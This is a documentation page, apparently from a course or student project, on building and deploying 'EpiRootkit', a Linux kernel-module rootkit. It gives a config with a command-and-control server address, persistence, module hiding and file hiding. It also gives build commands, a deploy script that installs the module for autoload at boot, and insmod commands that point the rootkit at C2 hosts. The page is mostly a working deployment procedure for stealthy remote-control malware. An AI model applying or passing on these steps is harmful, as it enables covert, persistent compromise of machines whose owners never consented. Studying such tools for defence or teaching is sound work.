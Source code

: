 ```yaml
---
title: "Build & Deployment"
description: "How to build and load EpiRootkit on Ubuntu 20.04"
icon: "code"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 502
---
```


# Build & Deployment

How to build and deploy EpiRootkit on Ubuntu 20.04 with kernel 5.4.0.

## Requirements

### System
- **OS**: Ubuntu 20.04 LTS
- **Kernel**: 5.4.0-* (check with `uname -r`)
- **Architecture**: x86_64

### Dependencies
```bash
sudo apt update
sudo apt install -y build-essential linux-headers-$(uname -r)
```

## Configuration

Edit `rootkit/core/config.h` before building:

```c
// Option 1: Domain name (recommended)
#define C2_SERVER_ADDRESS "jules-c2.example.com"
#define C2_SERVER_PORT 4444

// Option 2: IP address (traditional)
#define C2_SERVER_ADDRESS "192.168.64.1"
#define C2_SERVER_PORT 4444

// Feature settings
#define ENABLE_ENCRYPTION 0      // Encryption disabled
#define ENABLE_PERSISTENCE 1     // Auto-install persistence
#define ENABLE_MODULE_HIDING 1   // Hide module by default
#define ENABLE_FILE_HIDING 1     // Hide files with prefixes
```

## Build Process

```bash
cd rootkit
make clean && make
# ✓ Build successful: epirootkit.ko created

# Verify build
ls -la epirootkit.ko
file epirootkit.ko
# epirootkit.ko: ELF 64-bit LSB relocatable, x86-64
```

## Deployment

### Method 1: Deployment Script (Recommended)
```bash
# Deploy with domain name
sudo ./deploy_rootkit.sh address=jules_chef_de_majeur.epirootkit.com

# Deploy with IP address
sudo ./deploy_rootkit.sh address=192.168.1.100 port=4444

# Deploy with defaults from config.h
sudo ./deploy_rootkit.sh
```

**What it does:**
1. Validates module and root privileges
2. Deploys to `/lib/modules/$(uname -r)/extra/`
3. Sets up autoload via `/etc/modules-load.d/`
4. Updates dependencies with `depmod -a`
5. Loads module immediately
6. Verifies deployment

### Method 2: Manual Loading
```bash
# Load with domain
sudo insmod epirootkit.ko address=jules_chef_de_majeur.epirootkit.com

# Load with IP
sudo insmod epirootkit.ko address=192.168.1.100 port=4444

# Load with defaults
sudo insmod epirootkit.ko
```

## Verification

### Check Loading
```bash
# Check if loaded (may be hidden if stealth enabled)
lsmod | grep epirootkit

# Alternative check if module is hidden
ls -la /sys/module/epirootkit

```


## Domain Support

The rootkit supports both domain names and IP addresses for C2 connectivity.

For complete DNS resolution details, see [DNS Resolution](./features/dns-resolution.md).

## Management Commands

### Check Status
```bash
sudo ./deploy_rootkit.sh status
# Module Status: LOADED
# Location: /lib/modules/5.4.0-74-generic/extra/epirootkit.ko
# Autoload: ENABLED (/etc/modules-load.d/epirootkit.conf)
# Connection: CONNECTED (c2.example.com:443)
```

### Complete Removal
```bash
sudo ./deploy_rootkit.sh uninstall
# ✓ Module unloaded
# ✓ Autoload disabled
# ✓ Module file removed
# ✓ Dependencies updated
```

### Update Module
```bash
# Rebuild and redeploy
make clean && make
sudo ./deploy_rootkit.sh update
# ✓ Module updated and reloaded
```
